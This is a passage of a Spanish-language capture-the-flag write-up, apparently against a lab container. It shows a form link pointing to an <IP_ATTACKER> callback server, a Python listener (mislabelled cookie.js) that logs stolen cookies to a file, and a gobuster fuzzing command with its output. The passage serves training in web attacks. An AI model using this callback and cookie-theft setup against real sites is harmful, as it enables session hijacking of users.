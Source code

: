 > Servidor de Python3

```shell
python3 -m http.server 80
```

> Formulario de pagina

```
Nombre: test
Link: http://<IP_ATTACKER>/
```

Y si esperamos un ratito veremos lo siguiente en el servidor de `python3`.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [18/Mar/2025 09:27:02] "GET / HTTP/1.1" 200 -
```

Veremos que funciono, por lo que vamos a intentar obtener alguna `Cookie` a ver si tenemos suerte.

> cookie.js

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("🔥 Cookie robada:", self.path)
        with open("cookies.txt", "a") as file:
            file.write(self.path + "\n")
        self.send_response(200)
        self.end_headers()

server = HTTPServer(("0.0.0.0", 8000), RequestHandler)
print("🚀 Esperando cookies...")
server.serve_forever()
```

Con esto lo que vamos hacer es que nos llegara la `cookie` en nuestro servidor de `python3` en el puerto `8000`, ahora si probamos a meter el `link` con dicho archivo veremos que lo obtiene pero no obtenemos nada, por lo que seguiremos buscando.

Ahora vamos a realizar un poco de `fuzzing` para ver que encontramos:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
```